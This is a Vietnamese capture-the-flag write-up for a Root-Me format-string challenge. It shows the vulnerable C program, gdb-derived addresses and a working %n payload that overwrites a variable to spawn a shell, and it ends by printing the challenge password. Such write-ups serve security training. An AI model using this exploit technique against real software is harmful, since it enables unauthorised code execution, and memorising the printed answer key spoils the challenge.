



# ELF x86 - Format string bug basic 2

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
 
int main( int argc, char ** argv )
 
{
 
        int var;
        int check  = 0x04030201;
 
        char fmt[128];
 
        if (argc <2)
                exit(0);
 
        memset( fmt, 0, sizeof(fmt) );
 
        printf( "check at 0x%x\n", &check );
        printf( "argv[1] = [%s]\n", argv[1] );
 
        snprintf( fmt, sizeof(fmt), argv[1] );
 
        if ((check != 0x04030201) && (check != 0xdeadbeef))    
                printf ("\nYou are on the right way !\n");
 
        printf( "fmt=[%s]\n", fmt );
        printf( "check=0x%x\n", check );
 
        if (check==0xdeadbeef)
        {
                printf("Yeah dude ! You win !\n");
                setreuid(geteuid(), geteuid());
                system("/bin/bash");
        }
}
```

Bài này có lỗi format string ở hàm `snprintf(fmt, sizeof(fmt, argv[1])`, hàm `snprintf` tiến hành tạo chuỗi từ format `argv[1]` và lưu vào biến `fmt`, vì thế chúng ta có thể lợi dụng `format %n` để ghi đè vào biến `check` thành `0xdeadbeef` và lấy được shell. Đầu tiên dùng gdb để tìm địa chỉ biến `check`.



Ta thấy ở đây biến `check` nằm ở địa chỉ `ebp – 0xa0`, tiến hành đặt breakpoint ngay dòng lệnh và tìm địa chỉ chính xác của `check`.



Ta thấy `ebp` khi được mov có giá trị là `0xbffffa68`, từ đó ta tính được địa chỉ của `check` là `0xbffff9e8`. Bây giờ ta cần ghi đè vào đó giá trị `0xdeadbeef`, đây là một giá trị lớn vì thế ta cần chia làm 2 lần ghi đè, lần 1 ta đè `0xbeef` vào 2 byte thấp và lần 2 ta ghi đè `0xdead` vào 2 byte cao của biến `check`.

Sử dụng cách cũ như bài trước, ta tìm được offset bắt đầu của chuỗi fmt là 

`(0xc8 - 0x9c) / 4 - 3 = 8`

Exploit của ta sẽ như sau:

```bash
./ch14 $(python -c "print '\xe8\xf9\xff\xbf' + 'A' * 4 + '\xea\xf9\xff\xbf' + '%x' * 7 + '%48832x' + '%n' + '%8126x' + '%n'")
```

Vì rootme không có cơ chế xác định chính xác offset nên việc này trở nên khá cồng kềnh và gây khó chịu. Đầu tiên ta ghi 2 địa chỉ vào 2 vị trí đầu tiên của chuỗi, cách nhau bởi 4 kí tự ‘A’ để ta có thể dùng nó padding thêm cho địa chỉ sau. Ta dùng 7 lần `%x` để tiến đến offset thứ 8. Sau đó dùng `%48832$x` để tạo ra chuỗi có 48832 kí tự cộng thêm 47 kí tự trước đó đã in ta đạt đủ `0xbeef` kí tự. Sau đó ta tiến hành ghi đè `0xbeef` lên địa chỉ `0xbffff9e8`, padding chuỗi thêm 8126 kí tự để nó đạt đủ và ghi đè `0xdead` lên địa chỉ `0xbffff9ea`. Như vậy ta đã đổi biến `check = 0xdeadbeef` thành công.



Password là: `1l1k3p0Rn&P0pC0rn`


